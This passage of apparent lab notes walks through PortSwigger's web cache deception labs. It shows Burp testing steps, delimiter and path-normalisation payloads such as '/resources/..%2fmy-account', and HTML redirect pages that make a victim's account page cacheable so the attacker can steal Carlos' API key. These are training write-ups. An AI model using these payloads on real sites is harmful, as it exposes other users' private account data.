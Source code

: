 ```html
<head></head>
<body>
<script type="text/javascript">
document.location = "https://0a0a004d034c2c0a81a37ac8004e00e9.web-security-academy.net/my-account;bbb.js";
</script>
</body>
</html>
```
8. Deliver exploit to victim
9. Navigate to cached URL `/my-account;bbb.js`
	1. `X-Cache: hit` is in response header and Carlos' API key
- **Note:** Burp scanner audit item "Web cache deception" detects this vulnerability as well
# Exploiting origin server normalisation for web cache deception
- Find API key for user `carlos`
- Credentials: `wiener:peter`
- List of possible delimiter characters to help you solve the lab: [Web cache deception lab delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)
1. Authenticate to the target site
2. In Burp, crawl the target > Site map > Target > Scan > Crawl
3. In the `/my-account` page, change your email and send the request to repeater
4. Confirm there is URL normalisation performed by the origin server
	1. Submit `/aaa/..%2fmy-account/change-email` > Still receive 302 response
5. In the target site map see there is `/resources` directory > Send the `/resources/js/tracking.js` request to repeater tab
6. Change the request to `/resources/..%2fjs/tracking.js`
	1. Returns 404 and `X-Cache: miss`
	2. Submit request again and returns 404 and `X-Cache: hit`
7. Confirm `/resources/` is the static directory caching rule by submitting `/resources/aaa`
	1. Returns 404 and `X-Cache: miss`
	2. Submit request again and returns 404 and `X-Cache: hit`
8. We've confirmed the caching rule for static directories in `/resources`
9. Exploit server > Create exploit body:
```html
<html>
<head></head>
<body>
<script type="text/javascript">
document.location = "https://0a7300690469d27f80447b1e00d600dc.web-security-academy.net/resources/..%2fmy-account";
</script>
</body>
</html>
```
10. Deliver exploit to victim
11. Navigate to cached URL `/resources/..%2fmy-account`
	1. `X-Cache: hit` is in response header and Carlos' API key
# Exploiting cache server normalisation for web cache deception
- Find API key for user `carlos`
- Credentials: `wiener:peter`
- List of possible delimiter characters to help you solve the lab: [Web cache deception lab delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)
1. Authenticate
2. Crawl the target site
3. `/resources` serves static content and has a cache rule matching the static directory
	1. Determined by submitting a request to `/resources/aaa` and still getting cached responses
4. Test a candidate payload that will exploit the cache normalisation (`/my-account%2f%2e%2e%2fresources`)